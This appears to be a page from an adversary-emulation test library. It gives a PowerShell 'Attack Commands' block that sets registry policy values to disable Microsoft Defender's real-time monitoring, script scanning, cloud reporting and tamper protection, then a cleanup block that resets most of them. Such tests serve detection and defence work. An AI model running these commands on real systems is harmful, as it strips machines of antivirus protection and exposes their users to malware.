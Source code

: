 #### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender" -Name "DisableAntiVirus" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableBehaviorMonitoring" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableIntrusionPreventionSystem" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableIOAVProtection" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableOnAccessProtection" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableRealtimeMonitoring" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableRoutinelyTakingAction" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableScanOnRealtimeEnable" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableScriptScanning" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Reporting" -Name "DisableEnhancedNotifications" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\SpyNet" -Name "DisableBlockAtFirstSeen" -Value 1
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\SpyNet" -Name "SpynetReporting" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\MpEngine" -Name "MpEnablePus" -Value 0
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender Security Center\App and Browser protection" -Name "DisallowExploitProtectionOverride" -Value 0
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows Defender\Features" -Name "TamperProtection"  -Value 0
Set-ItemProperty "HKLM:\software\microsoft\windows defender\spynet" -Name "SubmitSamplesConsent" -Value 0
Set-ItemProperty "HKLM:\Software\Microsoft\Windows Defender" -Name "PUAProtection" -Value 0
```

#### Cleanup Commands:

```powershell
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender" -Name "DisableAntiVirus" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableBehaviorMonitoring" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableIntrusionPreventionSystem" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableIOAVProtection" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableOnAccessProtection" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableRealtimeMonitoring" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableRoutinelyTakingAction" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableScanOnRealtimeEnable" -Value 0
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableScriptScanning" -Value 0
```